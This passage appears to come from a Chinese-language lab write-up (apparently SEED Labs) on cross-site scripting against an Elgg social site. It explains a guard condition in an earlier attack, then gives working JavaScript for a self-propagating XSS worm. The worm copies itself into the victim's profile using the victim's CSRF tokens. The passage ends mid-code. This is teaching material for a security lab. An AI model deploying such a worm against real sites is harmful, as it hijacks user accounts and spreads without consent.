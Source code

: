 Alice 的 About me已被修改。

> Q3：为什么我们需要这行代码： `if (elgg.session.user.guid != samyGuid) `，删除这行代码，然后重复你的攻击。报告并解释你的观察结果。

A3：这行代码是为了防止脚本修改自己的 profile，如果没有这行代码，攻击者保存后会立即修改攻击者自己的 profile， 从而无法对其他人进行攻击。

---

## Task 6: Writing a Self-Propagating XSS Worm

这个任务中，你需要实现这样一个蠕虫，它不仅修改受害者的个人资料并将用户 “Samy” 添加为好友。

而且还将蠕虫本身的副本添加到受害者的个人资料中，因此受害者变成了攻击者。

为了实现自我传播，当恶意 JavaScript 修改受害者的个人资料时，它应该将自身复制到受害者的个人资料中。

有多种方法可以实现这一目标，我们将讨论两种常见的方法。

### DOM Approach

即利用 DOM 操作（如 `document.getElementById`）用来动态获取和处理页面内容。

我们给出攻击代码：

```html
<script id="worm">
    // 定义蠕虫脚本的头部标签
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    
    // 获取当前蠕虫脚本的代码内容
    var jsCode = document.getElementById("worm").innerHTML;
    
    // 定义蠕虫脚本的尾部标签
    var tailTag = "</" + "script>";
    
    // 组合完整的蠕虫代码并进行 URL 编码以便嵌入 HTTP 请求中
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

    // 当页面加载完成时自动执行的函数
    window.onload = function() {
        // 获取当前用户的信息，包括用户名和唯一标识符（GUID）
        var userName = "&name=" + elgg.session.user.name; // 当前用户名
        var guid = "&guid=" + elgg.session.user.guid;     // 当前用户的GUID

        // 获取 CSRF 相关的安全令牌
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts; // 时间戳
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token; // 令牌

        // 构造 POST 请求的内容
        var content = token + ts + userName + 
            "&description=" + wormCode + 
            "&accesslevel[description]=2" + 
            "&briefdescription=alice%20is%20my%20hero&accesslevel[briefdescription]=2" + 
            guid; // 包含蠕虫代码和其他字段的恶意描述内容

        // 指定攻击者（samy）的GUID，避免攻击自身账户
        var samyGuid = 59;

        // 构造目标请求的 URL
        var sendurl = "http://www.seed-server.com/action/profile/edit";

        // 检查当前用户是否是攻击者账户，避免攻击自身
        if (elgg.session.user.guid != samyGuid) {
            // 创建 XMLHttpRequest 对象用于发送异步请求
            var Ajax = null;
            Ajax = new XMLHttpRequest();

```